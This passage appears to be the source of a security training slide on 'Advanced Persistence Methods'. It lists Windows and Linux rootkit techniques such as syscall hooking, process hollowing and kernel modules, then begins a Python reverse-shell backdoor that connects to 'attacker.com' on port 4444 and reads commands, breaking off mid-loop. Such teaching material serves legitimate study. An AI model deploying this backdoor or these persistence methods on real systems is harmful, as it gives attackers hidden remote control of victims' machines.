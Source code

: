 # Advanced Persistence Methods

<div class="grid grid-cols-2 gap-8">

<div>

## 🔧 Rootkit-Style Persistence

### 🦠 Windows Rootkit Techniques
```yaml
Kernel-Level Persistence:
  - Driver installation and loading
  - System call hooking
  - Process hiding techniques
  - File and registry hiding
  - Network traffic concealment

User-Mode Rootkits:
  - DLL injection and hooking
  - Process hollowing
  - API hooking and redirection
  - Memory patching
  - Steganographic hiding
```

### 🐧 Linux Rootkit Methods
```yaml
Kernel Module Persistence:
  - Loadable kernel modules (LKMs)
  - System call table modification  
  - Process and file hiding
  - Network connection concealment
  - Log entry manipulation

User-Space Rootkits:
  - Library preloading
  - Binary replacement
  - Shared library injection
  - Process memory manipulation
  - Configuration file tampering
```

</div>

<div>

## 🌐 Network-Based Persistence

### 🔗 Backdoor Communication
```python
# Simple Python backdoor
import socket, subprocess, sys

def connect():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('attacker.com', 4444))
        
        while True:
            command = s.recv(1024).decode()
            if command.lower() == 'exit':
                break
            
```